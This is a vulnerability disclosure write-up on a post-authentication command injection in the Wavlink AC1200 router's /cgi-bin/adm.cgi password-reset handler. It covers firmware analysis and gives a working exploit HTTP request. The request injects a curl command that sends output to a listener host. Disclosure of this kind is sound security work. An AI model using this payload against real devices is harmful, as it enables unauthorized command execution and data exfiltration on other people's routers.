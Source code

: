 ## Overview
During recent security research for the Wavlink AC1200 (Model: WL-WN532A3) a Post-Authenticate Command Injection Vulnerability was identified in the "/cgi-bin/adm.cgi" endpoint.  This vulnerability could enable malicious actors who have compromise the credentials for the router, to run arbitrary shell commands.  A CVE Number is currently awaiting assignment for this vulnerability.

## Extracting Firmware
Upon receiving the Wavlink AC1200 Router, the loaded firmware was identified as 'M32A3_V1410_230602'.  However, this specific firmware version was not available via the official Wavlink support website.  Wavlink only provided one version of firmware, M32A3_V1410_240222, which is roughly eight months more recent.  During analysis, it was decided to research the newer available firmware, while attempting to exploit any vulnerabilities on the old version in order to confirm if any identified vulnerabilities affected both versions of firmware.  This also avoided the need for manually extracting firmware off the device.  Extracting the root file system was simply done by using the extract functionality of 'binwalk'. The M32A3_V1410_240222 firmware is available for download from the following link: https://docs.wavlink.xyz/Firmware/fm-532a3/

![](Wavlink_AC1200_Filesystem.png)


## Vulnerability Details
Initial research was focused around identifying the attack surface for command injections.  While many calls to `system`, `popen`, and various imported helper functions to run system commands were called, many were simply calls to premade bash scripts to which injection was not possible.  However, one call to `system` in the `set_sys_adm` function within `/etc_ro/lighttpd/www/cgi-bin/adm.cgi` immediately raised suspicions upon first glance due to passing a char array, that was formatted using `sprintf`.  Upon further inspection, it was determined that the function attempted to sanitize the input of a user provided password by looking for the `;` character.  However, this sanitization fails to account for other command injection techniques.

The image below shows the disassembly of `set_sys_adm`.  Some variable names have been changed in order to assist in analysis of this function.  From the image, you can see that the function gets the `password` field from a web request on line 40, then ensures it is neither NULL, contains a semi-colon (`;`), or is the same value as the previously stored password on lines 58-60.  This value is then passed to a `sprintf` call which builds out a command as such: `echo "<username.:<password>" > /etc/lighttpd.user`.  This formatted string is then immediately passed into call to `system`.

![](Wavlink_AC1200_Vulnerable_Function.png)

This was a great find, but it was time to figure out where this vulnerability could be accessed from the web portal.  It was quickly identified that this function was called when resetting the password from the "Login Password" page.
![](Wavlink_AC1200_Vulnerable_Webpage.png)

After identifying this web page, the HTTP POST Request was captured with Burp Suite.  The request looks as such:
```
POST /cgi-bin/adm.cgi HTTP/1.1
Host: 192.168.10.1
Content-Length: 82
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
Origin: http://192.168.10.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.10.1/set_safety.shtml?r=12980
Accept-Encoding: gzip, deflate, br
Cookie: session=420022404
Connection: keep-alive

page=sysAdm&username=admin&SYSPASS=asdfasdf&newpass=hellohello&NEWPASS2=hellohello
```
## Exploiting the Vulnerability
Having now understand the Command Injection Vulnerability at hand, and identifying where the vulnerability is accessible from, it was time to make an exploitation attempt.  The following request was sent to force the router to make a curl request to a netcat listener, while also exfilling data via the User Agent field.  The command attempting to be before URL-Encoding and placing in the request looks as follows: `curl http://192.168.1.6:4567/ -A $(pwd)`.  The command placed in a HTTP POST request looks as follows:

```
POST /cgi-bin/adm.cgi HTTP/1.1
Host: 192.168.10.1
Content-Length: 82
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
Origin: http://192.168.10.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.10.1/set_safety.shtml?r=76755
Accept-Encoding: gzip, deflate, br
Cookie: session=1783394974
Connection: keep-alive

page=sysAdm&username=admin&SYSPASS=asdfasdf&newpass=hellohello\"+%26%26+curl+http%3a//192.168.1.6%3a4567+-A+$(pwd)&NEWPASS2=hellohello
```


After sending the request we get confirmation that the vulnerability is exploitable.
![](Wavlink_AC1200_Exploit_Confirmation.png)
